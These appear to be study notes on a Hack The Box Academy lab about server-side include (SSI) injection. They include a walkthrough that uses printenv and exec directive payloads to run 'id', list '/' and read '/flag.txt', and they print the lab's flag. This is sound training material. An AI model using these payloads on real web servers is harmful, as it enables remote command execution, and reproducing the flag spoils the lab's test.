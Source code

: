 ```yaml
---
sticker: lucide//server-off
---
```


# Exploiting SSI Injection

Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

***

### Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to `/page.shtml`, which displays some general information:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of `<!--#printenv -->`. This results in the following page:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the `exec` directive by providing the following username: `<!--#exec cmd="id" -->`

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

## Question

![](images/Pasted%20image%2020250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![](images/Pasted%20image%2020250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![](images/Pasted%20image%2020250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![](images/Pasted%20image%2020250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
